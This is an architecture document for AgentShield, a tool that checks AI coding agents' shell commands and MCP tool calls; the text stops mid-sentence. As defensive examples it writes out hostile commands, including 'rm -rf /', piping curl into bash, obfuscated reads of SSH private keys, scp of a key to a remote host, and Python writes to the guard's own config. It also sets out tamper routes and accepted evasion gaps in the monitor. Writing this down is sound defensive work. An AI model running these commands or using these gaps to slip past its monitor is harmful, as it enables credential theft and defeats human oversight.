


# AgentShield Architecture

> **Reading time:** ~5 minutes. This doc is a single-pass overview that captures the invariants, tradeoffs, and intentional deferrals so a reviewer can validate architectural design against the code without reading every package. If something here disagrees with the code, the code wins — please update this doc in the same PR.

## Mission

AgentShield is a **local-first runtime security gateway** between AI coding agents (Claude Code, Cursor, Windsurf, Codex, Gemini CLI) and the operating system. It mediates two channels — **shell commands** and **MCP tool calls** — by *evaluating* every request against a layered analyzer pipeline before forwarding. It does not execute or wrap the eventual command; the IDE PreToolUse hook is the integration point. Default decision is **AUDIT** (fail-safe).

## Two channels


```mermaid
flowchart LR
  Agent["AI Agent"]
  AS["AgentShield Gateway"]
  OS["Operating System"]
  MCP["MCP Server\n(filesystem, GitHub, ...)"]
  Log["Audit Log\n(audit.jsonl + optional syslog/webhook)"]

  Agent -->|shell command via PreToolUse hook| AS
  Agent -->|MCP tool call via stdio/HTTP proxy| AS
  AS -->|ALLOW / AUDIT| OS
  AS -->|ALLOW / AUDIT| MCP
  AS -->|BLOCK| Agent
  AS --> Log
```

Both channels share the same audit/redaction pipeline and rule-pack tiers. They have **separate evaluation pipelines** (different signal models): shell uses the staged analyzer pipeline below; MCP uses the proxy scanners.

These two channels are the integration thesis: they are the **chokepoints
every agent framework converges on**, so AgentShield integrates per-protocol,
not per-framework. A harness reaches the shell channel through a thin payload
adapter (five dialects live in `internal/cli/hook.go`; agentless variants in
`clients/` delegate to shield-server), and reaches the MCP channel either
natively through the same hook (Claude Code, Codex) or via the
harness-agnostic proxy, which wraps any MCP server without the harness's
cooperation. Adding a framework is an adapter, not a rebuild. The honest
claim boundary: "anything that speaks MCP can be mediated" holds without
qualification; shell support is enumerated per-harness (see the README
support matrix — Windsurf and Gemini CLI have no MCP interception today).

## Shell pipeline (8 stages by default, 10 with the conditional ones)

Six decision layers run in every install (1–6), two enrichment stages produce no findings (0 and 2.5), and two decision stages are registered only when configured (6.5 and 7). The authoritative order is the `analyzers` slice in `BuildAnalyzerPipeline` (`internal/policy/pipeline.go`); this doc has previously said "6-layer", then "7-layer", while the code moved on — when in doubt, count the slice.

| # | Layer | Source | Catches |
|---|-------|--------|---------|
| **0** | **Intent classifier** | **`internal/analyzer/intent.go`** | **enrichment only — labels the statement's text (`is_doc_text`, `is_bash_comment`, `in_heredoc`, `is_self_mgmt`) into `ctx.CommandFacts` so rules can opt into `command_intent_exclude` / `command_intent_downgrade`. Runs first so every later stage sees the labels.** |
| 1 | Regex | `internal/analyzer/regex.go` | exact patterns (`rm -rf /`, `curl \| bash`) |
| 2 | Structural | `internal/analyzer/structural.go` | shell AST via `mvdan.cc/sh`, flag normalization, sudo unwrapping, pipes |
| **2.5** | **Substitution** | **`internal/analyzer/substitution.go`** | **constant propagation through `Name=value` assignments + constant-decoder pipeline folding (#1699). Returns no findings — enriches `ctx.MaterializedPaths` for the engine to re-check. Defeats split-concat bypasses like `P1=~/.ssh; P2=id_rsa; cat $P1/$P2` and constant base64-decoder shapes like `cat $(echo b64 \| base64 -d)`.** |
| 3 | Semantic | `internal/analyzer/semantic.go` | intent classification (file-delete, network-exfil, code-execute) |
| 4 | Dataflow | `internal/analyzer/dataflow.go` | source→sink taint through pipes/redirects |
| 5 | Stateful | `internal/analyzer/stateful.go` | multi-step chain detection within a single compound command |
| 6 | Guardian | `internal/guardian/heuristic.go` | prompt injection, obfuscation, inline secrets, eval/exec risk, unicode steganography |
| 6.5 | Artifact Hash | `internal/analyzer/artifact_hash.go` | **conditional** — registered only when `AGENTSHIELD_ARTIFACT_MANIFEST` names a loadable manifest. Verifies a bundled skill script invoked by the command still matches the SHA-256 the comply scanner recorded for it (schema-only integration, Comply#3029). Emits a finding only on a confirmed mismatch, so it cannot produce a false BLOCK; it is the first stage that reads the filesystem at eval time |
| 7 | Data Label | `internal/analyzer/datalabel.go` | **conditional** — registered only when `data_labels` are configured. Customer-defined PII / codenames (4-tier engine) |

Pre-pipeline: `internal/normalize/normalize.go` extracts the executable, args, paths, and domains and pre-parses the AST. Post-decision: `internal/redact/` redacts secrets from the audit-event command/args/error before persisting.

The combiner uses **most-restrictive-wins**: `BLOCK > AUDIT > ALLOW`. If the pipeline produces no findings and no rules match, the engine falls through to the default decision (AUDIT) with a `protected_paths` override (BLOCK if path matches — including any path materialized by Layer 2.5). One carve-out (2026-09-02): a protected path that appears **only** in a designated consumer's credential slot — `ssh -i`, `kubectl --kubeconfig`, `gpg --homedir`, `ssh-add <key>`; table in `defaults.protected_path_consumers`, engine logic in `internal/policy/consumers.go` — is recorded as AUDIT (`protected-path-consumer`) instead of blocked. Measured before the carve-out, the shipped default blocked every one of those while the same tools read the same files implicitly; a consumer using its credential is the event an attestation should record, not an exfiltration. Flag-position-aware, so `scp ~/.ssh/id_rsa host:` (key as source operand) still blocks. `echo`/`printf` arguments are text to both the normalizer and the substitution analyzer, so `echo $HOME/.kube/config` and `echo ~/.kube/config` get the same verdict. Extended 2026-09-06 (#3630): a consumer's credential slot may also be an **environment variable** (`env:` in the same table — `KUBECONFIG`, `GNUPGHOME`, `AWS_SHARED_CREDENTIALS_FILE`, …), so `export KUBECONFIG=~/.kube/config` is recorded as `protected-path-consumer` AUDIT rather than passing unattributed. The assignment path reads `ctx.Assignments` (published by the substitution analyzer), never `ctx.MaterializedPaths`, and is held in its own engine variable: it can only ADD a record, never suppress a BLOCK, and a read through the variable (`cat $KUBECONFIG`) still blocks.

### Invariants (pipeline)

- **Pipeline is fail-safe**: any analyzer panicking returns AUDIT, never crashes the host.
- **Stateful is intra-command-only** — `stateful.chain` matches segments of one compound command (`&&`, `;`, `|`). There is no cross-invocation session store on the hook path: each hook is a fresh process, no `Evaluate*` signature takes history, and the old `SessionStore` interface was deleted in #2772 (2026-07-01). The `analyzer.SessionState` type in `types.go` is an orphaned placeholder with no readers or writers. Session-level shell detection belongs in `shield-server`, which already keeps a per-session store (`cmd/shield-server/sessions.go`) and per-session MCP call history keyed by `session_id`.
- **Layer 2.5 returns no findings** — pure context enrichment via `ctx.MaterializedPaths`. The engine re-checks materialized paths against `protected_paths` *after* the pipeline runs. Anything that makes Layer 2.5 produce a Finding directly is wrong; if it needs a Finding, it belongs in Structural / Semantic / Guardian.
- **Layer 2.5 ↔ Guardian boundary**: constant decoder pipelines (e.g. `cat $(echo b64 | base64 -d)`) are Layer 2.5's job — folded deterministically. *Non-constant* decoder shapes (CmdSubst with unresolved source, ParamExp Layer 2.5 couldn't resolve) are flagged AUDIT by Guardian's `obfuscated_decoder_eval` signal. Keeping the constant-emitter list in `internal/guardian/decoder_audit.go` in sync with `evalConstSource` in `internal/analyzer/substitution_decoder.go` is what makes the split work — see the comments in `decoder_audit.go`.
- **DataLabel is zero-cost when disabled** — `NewEngine` returns nil when `data_labels` is empty, the analyzer is not registered.
- **Combiner contract**: never downgrade a finding (no AUDIT-overrides-BLOCK paths anywhere).

### Pipeline flow


```mermaid
flowchart LR
  Cmd["Raw Command"]
  Norm["Normalize\n(pre-pipeline)"]
  IC["0. Intent classifier\n(enrichment, no findings)"] --> R["1. Regex"] --> S["2. Structural"] --> Sub["2.5 Substitution\n(enrichment, no findings)"] --> Sem["3. Semantic"] --> DF["4. Dataflow"] --> SF["5. Stateful"] --> G["6. Guardian"] --> AH["6.5 Artifact hash\n(conditional)"] --> DL["7. DataLabel\n(conditional)"]
  Cmd --> Norm --> IC
  DL --> Comb["Combiner\n(most-restrictive-wins)"] --> ProtPath["Re-check\nprotected_paths\n(incl. materialized)"] --> Dec["Decision\nBLOCK / AUDIT / ALLOW"]
  Dec --> Redact["Redact\n(audit-log only)"]
```

## MCP mediation


```mermaid
flowchart TB
  subgraph proxy["MCP Proxy (stdio + Streamable HTTP)"]
    direction TB
    DescScan["Tool Description\nPoisoning Scanner\n(description_scanner.go)"]
    Policy["MCP Policy Engine\n(policy.go — sentinels + rules)"]
    ContentScan["Argument Content\nScanner\n(content_scanner.go,\ndatalabel_scanner.go)"]
    ValueLim["Value Limits"]
    ConfigGuard["Config File Guard"]
    RespScan["Tool Response\nPoisoning Scanner\n(response_scanner.go)"]
    DescScan --> Policy --> ContentScan --> ValueLim --> ConfigGuard --> RespScan
  end
```

- **Description scanner** runs at `tools/list` (definitions). Rule pack: `mcp-tool-poisoning`, `mcp-sentinel`.
- **Content scanner** runs at every `tools/call` (arguments).
- **Response scanner** runs at every `tools/call` *response* and `resources/read` response — six injection-class signals plus position-aware tail check for truncation smuggling (#1764) and reasoning-mimicry framing (#1765).
- **Sentinel pattern**: rules backed by Go detection engines have `engine: <name>` in YAML and provide identity/taxonomy/reason metadata only. Detection runs in `internal/mcp`, audit log gets the rule ID via `LookupSentinel`. Used for cross-server state, deep content analysis, anything that can't be a YAML pattern match.

## Rule packs

```
packs/
├── community/                # OSS, embedded into binary
│   ├── *.yaml                # shell rules — count via `make coverage` (COVERAGE.md); never hand-count
│   └── mcp/*.yaml            # MCP rules (community)
└── premium/                  # paid tier, delivered via SaaS API
    ├── *.yaml                # shell rules (semantic/dataflow/stateful)
    ├── mcp/*.yaml            # MCP rules including mcp-sentinel.yaml
```

**Embedded packs are authoritative.** `//go:embed community/*.yaml` ships the OSS coverage — a fresh install needs zero disk packs. Disk packs (`~/.agentshield/packs/`) layer on top: `agentshield update` fetches premium YAML from the SaaS API and writes to disk; user custom packs go alongside. The fitness function `internal/policy/embedded_packs_test.go` protects against the old broken design where install code wrote community packs to disk.

Loading order: embedded → `~/.agentshield/packs/` → CLI `--policy` override (ignored in managed mode).

## FP-aware design

Today's session surfaced the meta-pattern: **a security tool that punishes its own builders gets resisted by the team that has to live with it.** Specific design moves to mitigate this, all in `internal/guardian/heuristic.go`:

- **Safe-caller stripping**: `gh`/`git` commands strip quoted arguments before pattern-matching (`safeCallerRe` + `stripQuotedRe`). Commit messages, PR bodies, issue text are sent to external APIs, not executed.
- **Heredoc-then-quote ordering** (#1769): on the safe-caller path, truncate at `<<` *before* `stripQuotedRe`. Heredoc bodies inside `$(cat <<'EOF' ... EOF)` substitutions can have unbalanced quotes — strip-quoted alone misaligns and leaks the body.
- **Python `-c "..."` string-literal stripping**: the eval_risk strip removes triple-quoted (`'''...'''`, `"""..."""`), single-quoted (`'...'`), and shell-escaped double-quoted (`\"...\"`) string contents from inside `python3 -c "..."` arguments before checking for live `eval(`/`exec(` calls. Issues #1463, #1693, #1766.
- **File-write heredoc body stripping**: `cat > file << EOF ... EOF` and `tee file << EOF ... EOF` patterns strip the body — it's file content, not commands. Issues #233, #389.
- **Compound-segment evaluation**: commands joined by `&&`/`||`/`;` are split and each segment evaluated independently against its analyzer's safe-caller rules. `cd dir && gh pr create --body "..."` is correctly handled.

The eval_risk regression suite (`heuristic_test.go::TestHeuristicProvider_EvalRisk_GitCommitFP`) pins all of these. Adding a new safe-caller (e.g. `aws`, `gcloud`) requires extending the strip pattern AND adding TN cases for each documented issue (#184, #233, #389, #1463, #1690, #1766, #1768).

## Enterprise tamper-protection

`internal/enterprise/` adds a middleware chain to `evaluateCommand()` when `~/.agentshield/managed.json` has `"managed": true`. In non-managed mode the chain is empty (zero overhead).

| Middleware | Stage | Purpose |
|------------|-------|---------|
| `BypassGuard` | pre-eval | ignores `AGENTSHIELD_BYPASS=1` |
| `SelfProtect` | pre-eval | blocks 6 hardcoded patterns targeting AgentShield itself (config delete, hook delete, binary replace, policy write, setup --disable, env-var bypass) |
| attestation notes | `analyzer.Note` / `AnalysisContext.AddNote` (#3995) | not a stage: a collector three stages write to (regex, semantic, substitution) and nothing reads to decide. Seven kinds — `excused` (a restricting rule's pattern fires, its own intent/position exclusion removed it; names rule and exclusion), `downgraded` (the #2843 BLOCK→AUDIT, machine-readable), `parse_fallback` (#3467), `scope_alternates_capped` (#3769 shape 5), `executed_text_unresolved` (#3938), `policy_degraded` (#4077; written by the hook when a policy layer failed to load, e.g. unreadable disk packs, so a degraded evaluation never attests as full enforcement), `audit_lock_unavailable` (#4052; the only kind written by the logger, defined in `internal/logger`: the `<log>.lock` file could not be opened, so the event was appended without the cross-process lock and size-triggered rotation was suspended, though the writer still follows a healthy sibling's rotation and, when its line is the first into the fresh file, links it to `.1` as the rotator would (an empty live file takes its head from `.1`); what remains of the lockless cost is a `prev_hash` mismatch when a sibling appends between the head read and the write; the one outcome that would be invisible, two sibling rotations in that window leaving the write in an unlinked inode, is caught after the write by an `nlink` check on the held descriptor (`reappendIfUnlinked`) and the same event is re-chained onto the live file, bounded, with a stderr warning and a `Log` error if it still lands unlinked; `nlink` rather than `SameFile` because after one rotation the line is in `.1`, retained, and must not be appended twice; and a non-empty file's head is read from the held descriptor (`chainHeadFile`, the log is opened `O_RDWR|O_APPEND` for it) rather than from the path, because during a sibling's rotation the two name different inodes and a head read by path put a genesis line into `.1` that the rotator then linked the fresh live file to (a log that could only be opened write-only, `openLog`'s fallback, still reads the head by path and keeps that window) — a break beside such events *may* be that lost lock race and the note does not prove it; a break inside `.1` is reported as broken once `VerifyChain` validates `.1`'s own chain (#4132). The suspension covers only that state: a lock held past the wait budget, or a filesystem without `flock`, still rotates lockless and unnoted). The engine copies `ctx.Notes` onto `EvalResult.Notes` after `RunAll`; the hook carries them to the audit event and the wire payload as `notes`, omitted when empty so both payload goldens are unchanged. Measured on 6186 real commands: 1.1% carry a note. The regex-only fallback engine writes the same kinds for its own path, probing the raw command only |
| fail-closed boundary | `internal/cli/fail_safe.go` (#3619) | not a middleware: `evaluateCommand` returns no error, and every pre-verdict failure (config load, audit-log init, policy load, pack parse, engine init) goes through `failSafeDecision` — BLOCK (`enterprise-fail-closed`) under managed `fail_closed`, AUDIT (`agentshield-eval-error`) with a flagged, error-carrying event otherwise. The former `enterprise.FailClosed` post-eval middleware was deleted; the chain runs before evaluation and could never see a result |
| `RemoteLogger` | *defined, not in the chain* | zero references outside `internal/enterprise`; webhook forwarding actually ships through `internal/logger/webhook.go`. Delete or wire |

The seam is loose where it matters — `internal/analyzer`, `internal/policy` and `internal/shellparse` import nothing from `enterprise` — and leaky at the CLI layer: besides the two chained middlewares, managed-mode decisions (bypass, pause, two fail-closed checks) are inline `if managed` branches across `internal/cli`. `internal/policy/remediation` is the one non-CLI importer, by design (one definition of "managed"), and is a presentation helper that belongs at `internal/remediation`.

**What managed mode guarantees today (measured 2026-09-01 through the real hook, fresh build):**

- Fail-closed holds for every evaluation failure since #3619: config load, audit-log init, policy load, pack parse and engine init all pass through `failSafeDecision` (`internal/cli/fail_safe.go`), which returns BLOCK under managed `fail_closed` and a flagged, error-carrying AUDIT otherwise. `evaluateCommand` no longer returns an error, so a harness handler cannot allow on one. Before #3619 two of the five sites returned a plain error that every handler turned into a silent allow — an invalid `command_intent_exclude` label was enough to let `rm -rf /` through under `fail_closed: true`. `cmd/shield-server` builds its engine once at startup, so its failure mode is "no server"; what the thin client does when the server is unreachable is a separate question tracked with #3619.
- Self-protection is seven text rules over the raw, dequoted and unset-param-folded command. Six enumerate tamper spellings; the seventh, `sp-block-config-touch` (#3620), is default-deny: any command naming `policy.yaml`, `managed.json`, `agentshield.yaml`, `credentials.json` or `packs/` under `~/.agentshield` is blocked unless it is a single simple statement starting with a read-only tool. That closes the interpreter-write class (`python3 -c "open(…).write(…)"` was AUDIT before). A `managed.json` that exists but does not parse is read as managed + `fail_closed` by both loaders (`config.LoadManaged`, `enterprise.LoadManagedConfigFrom`; `TestManagedConfigLoaders_Agree` pins them), so a corrupt enrollment no longer re-enables pause and bypass. Local `disable_rules:` is dropped from the user policy on a managed host before packs merge. The path layer (2026-09-02): on a managed host `~/.agentshield/**` is added to `protected_paths` for every command that is not a plain read, and the substitution analyzer now folds `$HOME` and extracts file-access literals from interpreter one-liners, so `CFG=$HOME/.agentshield; python3 -c "open('$CFG/policy.yaml','w')"` — which names the directory nowhere in its text — is blocked as a protected path. Text rule and path rule share `plainReadRe`, one definition of "read". Still open under #3620: a path reached through a symlink the shell resolves, and hook-config-file protection beyond `rm`.
- The honest claim is therefore "raises the cost and records the attempt", not "cannot be turned off". A hard guarantee requires OS-enforced ownership beneath managed mode (root-owned or immutable `~/.agentshield`, MDM-pinned hook config, or signed enrollment state the hook verifies). README wording was aligned to this on 2026-09-01.

A watchdog runs as a separate process (`agentshield watchdog`) for tamper detection on the binary + config.

## Dogfooding loop (Baby Kai)

Three Sonnet specialists (Shield, Comply, Taxonomy) plus an Opus Supervisor and Remedy verifier run nightly and on Sundays for an Opus deep-dive. They develop rules, run accuracy tests, and **self-merge their own PRs**. Every FP in their flow is a real signal — caught during real work, not synthesized — and the squad files rule-request issues against itself when blocked.

The CLAUDE.md "AgentShield QA Dogfooding" rule applies: every block during real workflow gets evaluated as TP/FP, and FPs become issues. Today's #1766/#1768/#1769/#1771 are all dogfood findings from this loop.

## Fitness functions

Every entry below was mutation-tested on 2026-07-28 (#3130 follow-up): the
defect each one claims to catch was introduced, the gate was confirmed to fail,
and the defect reverted. A gate that cannot fail is worse than no gate — it
launders an unverified claim into a green check, which is exactly what
`scripts/integration-test-oss.sh` did for months. Where a gate is cheap to
self-test, that test is checked in next to it (`*_test.sh`) and runs in CI.

| Test / target | Protects |
|---------------|---------|
| `make check-rule-coverage` (CI) | every taxonomy ref has TP+TN test data; baseline at `cmd/check-rule-coverage/baseline.txt`, exceptions need Gary+Kai sign-off |
| `make mcp-verify` (CI) | every MCP rule has scenario coverage (TP+TN). Wired into CI 2026-07-28 — it had been documented as a fitness function since #2193 but nothing ever ran it |
| `scripts/check-oss-baseline.sh` (nightly) | the OSS-stripped build does not lose coverage. Ratchets against `scripts/oss-known-failures.txt`; self-tested by `check-oss-baseline_test.sh`. See `.github/workflows/oss-distribution.yml` for why it is nightly and not a merge gate |
| `scripts/check-taxonomy-refs.sh` (CI) | **tier 1 (fatal)** no pack references a taxonomy id that has not landed in AI_risk_compliance. **tier 2 (report only, #3429)** which refs have landed in `taxonomy/` but are not yet in the *published* artifact — the gap the SaaS resolves against, where premium pack delivery stalls silently. Self-tested by `check-taxonomy-refs_test.sh` (wired into the Test job 2026-08-19) |
| `scripts/check-community-additions.sh` (CI) | no net-new rule under `packs/community/` without the `approved-community` label; self-tested by `check-community-additions_test.sh` |
| `internal/analyzer/parity_baseline_test.go::assertProbeNotVacuous` | the glob/brace parity sweeps use a production transform as their own validity gate, so a dead transform used to make them pass over an empty probe (`0/0 leaked`). The floor makes that state loud |
| `internal/policy/embedded_packs_test.go` | fresh install has full community coverage with zero disk packs (no install-time writes to `~/.agentshield/packs/`) |
| `internal/analyzer/case_fold_parity_test.go`, `internal/mcp/case_fold_parity_test.go` | a path whose letter case differs from its canonical spelling (the same file on APFS/NTFS) decides no lower than the canonical, on the pipeline, the regex-only fallback and the MCP evaluator; designated consumers (`ssh -i`) stay AUDIT with the same record. Each sweep carries a fold-off positive control that must leak, and the production verdict is checked never to fall below the as-written one (#4194) |
| `make test-premium` | premium pack download + scan flow end-to-end |
| `internal/guardian/heuristic_test.go::TestHeuristicProvider_EvalRisk_GitCommitFP` | FP-aware strip patterns survive future edits |
| `cmd/check-rule-coverage/main.go` | annotation-driven TP/TN coverage walks the test corpus (`internal/analyzer/testdata/*.go`) |
| `internal/policy/pipeline_perf_test.go::TestPipelinePerfBudget` | per-tier P95 latency budget (typical < 5ms, adversarial < 100ms) against the embedded-community ruleset. `BenchmarkPipelinePerCommand` in the same file produces benchstat-comparable per-case timings. Calibrated 2026-05-03 — fails CI if a future rule/pipeline change degrades latency past budget. |

## Anti-patterns to avoid

- **Don't** embed `MITRE `, `OWASP `, `CWE-`, or `LLM0x` text in rule `message:` fields. Compliance is resolved from the `taxonomy:` ref at scan time. (See `AI_risk_compliance/CLAUDE.md` Rule Metadata Convention.)
- **Don't** write community packs to `~/.agentshield/packs/` on install. The embedded-packs invariant is the fitness-function-protected design (#1366 was the broken pre-2026-04 shape).
- **Don't** introduce a new MCP rule referencing a taxonomy ref that doesn't yet exist in `AI_risk_compliance/main`. The `Taxonomy refs` CI check sparse-clones AI_risk_compliance and fails closed. Cross-repo ordering: file the taxonomy entry PR first, merge it, *then* land the rule PR.
- **Don't** add cross-invocation session state to the hook binary. Each hook is a fresh process and there is no store to wire (the `SessionStore` interface was deleted in #2772). The seam for session-level detection is `shield-server`'s per-session store, which already keys MCP call history by `session_id`.
- **Don't** add a rule that fires on `git commit -m`/`gh pr create --body`/`gh issue create --body` content without going through the safe-caller strip chain. Every such rule that ignores it adds a FP class to the dogfooding queue.
- **Don't** extend `internal/analyzer/substitution_scope.go` to catch an adversarial bash-scope shape. The scope model is frozen with a documented boundary (#3769; see Known gaps below): four rounds of fixing such shapes each opened the next round's holes. Add the shape to the list in its `# Model boundary` comment instead.
- **Don't** extend `ExecutedText`, `is_self_mgmt` attribution or the interpreter-literal recovery in `interp_exec.go` to catch text an interpreter prints into a shell, or a self-management marker inside an executed body. Both are accepted and documented boundaries (#3979; see Known gaps below). The next round of the executed-text lineage needs a revisit trigger, not a new shape.

## Intentionally deferred

These exist as ports/scaffolds but are not active production surfaces. Re-activating any of them is an architectural decision, not a bug fix.

| Surface | Status | Tracking |
|---------|--------|----------|
| Cross-command shell session state | no store on the hook path (`SessionStore` deleted in #2772; `analyzer.SessionState` is an orphaned placeholder); `shield-server`'s `sessionStore` is the seed | see #19 for the MCP cross-tool taint design |
| MCP cross-tool taint tracking (Phase 4) | design-only | #19 |
| Stratified confidence model with FP-budget fitness function | design-only | #1581 |
| Command-intent pre-classifier (replace `{{DOC_CONTEXT}}` macro sprawl) | design-only | #1580 |
| Google A2A protocol scanning support | strategic | #342 |

If you find code that looks like one of these is partially implemented but unreachable, that's expected — it's a sacrificial scaffold awaiting a concrete need to drive the full implementation.

## Known gaps and evolution seams (architecture review, 2026-09-01)

Documented first, deliberately not built. Each row names the evidence measured on 2026-09-01 and the trigger that would justify the work. The verdict of that review: the engine is a pure function `(command, context) → verdict` with three dependencies and every stage earning its keep (2026-07-01 ablation); the coupling is loose at the package level and leaky at the CLI level; the entry point is not one.

| Gap | Evidence | Seam / trigger |
|---|---|---|
| **Engine assembly is copy-pasted, not shared** | `config.Load → policy.Load → LoadEmbeddedShellPacks → LoadPacks → NewEngineWithAnalyzers` appears in `internal/cli/hook.go`, `internal/cli/check.go` (twice) and `cmd/shield-server/server.go`; the MCP stack (`LoadMCPPolicy → LoadEmbeddedMCPPacks → LoadMCPPacks`) in `internal/cli/mcp_proxy.go` and `server.go`. CLAUDE.md asks authors to keep them in lock-step by hand. | One `LoadShellEngine(cfg)` / `LoadMCPStack(cfg)` pair owned by `internal/policy` / `internal/mcp`. Trigger: the next change to either sequence. |
| **Fail-closed was partial** (closed 2026-09-02, #3619) | Two of five evaluation-error sites in `evaluateCommand` returned a plain error; harness handlers allowed on error with no audit event. Reproduced: invalid intent label + `fail_closed: true` → `rm -rf /` exited 0. | `failSafeDecision` (`internal/cli/fail_safe.go`) is the single boundary and `evaluateCommand` no longer returns an error. Pinned by `TestFailSafeDecision_*` and by `TestHook_EngineInitFailure_ExitsTwoUnderManagedFailClosed`, which re-executes the real hook and asserts exit 2. Still open under #3619: the thin client's behaviour when `shield-server` is unreachable. |
| **Self-protection was write-verb regexes** (three of four layers closed 2026-09-02, #3620) | `sp-block-policy-write` matched `(echo\|cat\|tee\|>)`; interpreter writes passed. A corrupt `managed.json` read as "not managed" and re-enabled pause/bypass. `disable_rules` was honored in managed mode. | Done: corrupt `managed.json` → managed + `fail_closed` in both loaders; local `disable_rules` dropped on managed hosts; default-deny `sp-block-config-touch` over the config dir; path layer — `~/.agentshield/**` becomes a protected path on managed hosts for non-read commands, and the substitution analyzer folds `$HOME` and extracts file-access literals from interpreter one-liners (a general fix: `P=$HOME/.ssh; cat $P/id_rsa` also escaped `protected_paths` before). Open: hook-config files beyond `rm`; symlinked paths. |
| **Enterprise seam is half a middleware chain** | `buildMiddlewareChain` carries `BypassGuard` + `SelfProtect`. The bypass, pause and two fail-closed decisions are inline `if managed` branches in `hook.go`; `enterprise.FailClosed` and `enterprise.RemoteLogger` are defined and never wired (0 references outside the package). Core packages import nothing from `enterprise`. | Delete the two unwired middlewares — wiring `FailClosed` cannot fix #3619 because the chain is pre-eval only. Route the inline branches through whatever the #3619 boundary becomes; move `internal/policy/remediation` to `internal/remediation`. Trigger: #3619. |
| **MCP scanners are hand-wired** | `internal/mcp/handler.go` is 4,029 lines with 18 sequential `if result.Decision != "BLOCK"` guards and 57 `Scan*` call sites. Adding one scanner (#3453) touched 4 files and added 37 lines to `handler.go`. 7 of 9 response-scan audit sites still emit the catch-all taxonomy ref `unauthorized-execution/agentic-attacks/mcp-tool-response-poisoning` although `signalTaxonomyRef` / `indirectDirectiveTaxonomyRef` exist. | A scanner registry (`[]{scan, taxonomyFor}`) makes the taxonomy ref a required field instead of a step to remember. Trigger: the catch-all regression is a fusion-moat defect today — the SaaS resolves compliance controls through that ref, so a generic ref attests generically. |
| **No cross-invocation shell state** | Each hook is a fresh process; no `Evaluate*` signature takes history; `stateful.chain` sees one compound command. `shield-server` already keeps a per-session store and per-session MCP call history keyed by `session_id`. | Session-level shell detection (the lethal trifecta across invocations) lives in `shield-server`, not the hook binary. Trigger: the first rule that needs it. |
| **A third channel is structural** | `Engine.Evaluate*` is shell-shaped (command string + parsed AST); MCP is a separate subsystem. A browser/computer-use action or an A2A call has no home. Comply already ships five `ai-a2a-*` static rules — the structure plane sees A2A, the action plane cannot. | Do not build a third engine. The `/v1/evaluate` request and `AuditEvent` are the surface-neutral envelope to extend first. Trigger: a design partner running A2A or computer-use agents. |
| **Identity plane is declared, not carried** | `evaluateRequest.AgentID` is parsed and never read; `AuditEvent` has no `agent_id`, while the comment above the request struct says the field is "carried from day one". `SessionID` and `Principal` are carried on all harnesses. | Add `AgentID` to `AuditEvent` (`omitempty` — the hash chain re-marshals) and copy it through in `server.go`. Trigger: now; it is one field. |
| **"Generated" scenarios are hand-written** | `internal/mcp/scenarios/generated_scenarios.go` is a 22-line stub; `curated_scenarios.go` (18,626 lines) and its siblings are hand-curated (61K lines in total); nothing in CI diffs `make mcp-gen` output. | Rename the framing; add a check-vs-diff gate for `mcp-gen` (the taxonomy-artifact freshness shape) or retire the generator. |
| **Guardian keeps growing** | 47 `regexp.MustCompile` in `heuristic.go` (21 at the 2026-05-03 review); it had the worst LOC-per-catch ROI in the 2026-07-01 ablation. | Split into per-signal providers behind the existing `HeuristicProvider` interface when the next signal lands. |
| **Stale top-level reports** | `PROGRESS.md`, `REDTEAM_REPORT.md`, `BENCHMARK.md`, `TAXONOMY_HEALTH.md`, `COMPLIANCE_GAPS.md` are Feb–Apr 2026 snapshots with 0–2 inbound references (the live red-team reports are the gitignored `internal/*/testdata/*_REDTEAM_REPORT.md`); `CHANGELOG.md` stops at 0.1.0 while releases run v0.2.20xx through goreleaser; `static_rules` was a tracked symlink into the private Comply repo with no consumer (removed, #3115). | Tracked in the cleanup issue filed with this review. |
| **Layer 2.5 scope model is best-effort, and frozen** (accepted 2026-09-11, #3769) | Four adversarial rounds on the protected-path-read lineage (#3706 → #3743 → #3752 → #3769) each found holes in the previous round's fixes. Round 4 measured eight shapes at `0da80a27`: three missed reads introduced by round 3 (`printf -v` reading its own target, `printf -v` with `%q`, an uncalled function discarding a seed); one false BLOCK introduced by round 3 (a subshell's conditional alternate leaking out); two gaps in round 3's conditional merge (a temporary prefix after a conditional write, and more than `maxScopeAlternates` conditional writes, so padding switches protection off); and two older misses (joint state across two variables, `+=` after a conditional). Shapes and mechanisms: the `# Model boundary` section of `internal/analyzer/substitution_scope.go`. | **Accepted, not queued** (Gary, 2026-09-11). A construct the walker does not model drops the value, so a protected read behind it never reaches `protected_paths` and gets the default decision: fail-open, per the minimal-intrusion default. **For attestation:** such a read is recorded at the default decision with no protected-path attribution, so a receipt built from it cannot tell it apart from an ordinary command — except that since #3995 the event carries a `scope_alternates_capped` note when the cap was the reason, which is the add-only record proposed below, landed as one of five note kinds rather than through the consumer channel. **Rejected:** (a) keep extending the model, since each round opened the next; (c) treat any value the walker cannot prove overwritten as still protected, which closes the class but turns every uncertainty into a BLOCK; and an add-only `AUDIT protected-path-unresolved` record through the same engine channel as `protected-path-consumer`, which changes no decision and would attribute shapes 1–5 and 7. **Revisit trigger:** a scope-evasion shape seen in real traffic (audit log or SaaS telemetry), or a customer or auditor asking what an unattributed default-decision event means; the add-only record is the first step then. Until a trigger fires, a new shape of this class is added to the list in the code, not fixed. |
| **Executed text that reaches a shell through two more channels is not re-attributed** (accepted 2026-09-24, #3979) | `TestPositionExclusionCannotBeLaundered` runs each position-excluded rule's inline TPs through channels that execute the text. On main `dfcf5456`: 628 probes over 15 rules, 0 laundered by a position exclusion, and **28** "lower-but-not-position" probes, where the wrapped command scores below the bare TP even with positions stripped. #3980 already closed a third cause, text emitted by a substitution (44 → 28). The two remaining causes: **(2) 16 probes, `sec-block-ssh-private`.** `is_self_mgmt` is a whole-statement fact ("this statement mentions `agentshield mcp-eval`"), not an inertness label, so executor reach (#3797/#3801/#3928) never withdraws it. When the rule's own #3547/#3548 guard TPs are wrapped in a heredoc piped to a shell, the wrapper statement carries the marker, so the rule is *excluded*. Result: AUDIT with no rule named. **(3) 12 probes, frida 10 and `ts-block-sudo-alternatives-shell` 2.** Text that an *interpreter* prints into a shell (`python3 - <<'PY' … print(…) … PY \| bash`, `awk 'BEGIN{print …}' \| bash`, and the `bash <(…)` forms) is never offered to a `^`-anchored rule as a command. `ExecutedText` returns the interpreter's source line instead. | **Accepted, not queued** (decided 2026-09-24 under the #3769 precedent: an adversarial-only lineage stops and documents its boundary). Both causes decide AUDIT, the minimal-intrusion default, so the event is recorded. It is not allowed silently. Each needs a shape an attacker must construct on purpose: cause 2 needs this product's own self-management marker inside the executed body, and cause 3 needs an interpreter printing the payload into a shell. **For attestation:** such an event is recorded at AUDIT without 